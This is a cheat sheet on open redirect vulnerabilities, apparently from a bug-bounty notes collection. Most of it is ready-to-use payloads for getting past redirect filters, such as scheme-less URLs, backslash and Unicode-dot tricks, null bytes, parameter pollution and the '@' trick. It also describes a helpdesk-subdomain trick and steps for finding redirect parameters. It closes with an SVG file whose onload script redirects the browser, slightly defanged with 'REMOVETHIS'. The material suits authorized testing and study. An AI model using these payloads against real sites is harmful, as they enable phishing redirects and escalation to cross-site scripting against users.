 # Open Redirect

Often a bug that brings impact when chained.

Using "https:" to bypass "//" blacklisted keyword

```
https:google.com
```

Using "//" to bypass "http" blacklisted keyword

```
//google.com
```

Using `/\/` to bypass `//` blacklisted keyword

```
\/\/google.com/
/\/google.com/
```

Using "/\" to bypass:

```
/\google.com
```

Using "%E3%80%82" to bypass "." blacklisted character

```
//google%E3%80%82com
```

Using null byte "%00" to bypass blacklist filter

```
//google%00.com
```

Using parameter pollution

```
?next=whitelisted.com&next=google.com
```

Using "@" character, browser will redirect to anything after the "@"

```
http://www.theirsite.com@yoursite.com/
```

## Helpdesk trick

Sometimes a website will redirect only to a helpdesk subdomain, this behavior is interesting because it is possible to create a custom subdomain a place a script that will redirect to an evil website. Making it a open redirect.

## Open Redirect farming

1. If the Applictaion have a user Sign-In/Sign-Up feature, then register a user and log in as the user.
2. Go to your user profile page , for example : samplesite.me/accounts/profile
3. Copy the profile page's URL
4. Logout and Clear all the cookies and go to the homepage of the site.
5. Paste the Copied Profile URL on the address bar
6. If the site prompts for a login , check the address bar , you may find the login page with a redirect parameter like the following
- https://samplesite.me/login?next=accounts/profile
7. Exploit it or escalate to XSS

## Open Redirect uploading svg files

```
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.REMOVETHISlocation='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```

# Tools

- [Oralyzer](https://github.com/r0075h3ll/Oralyzer)
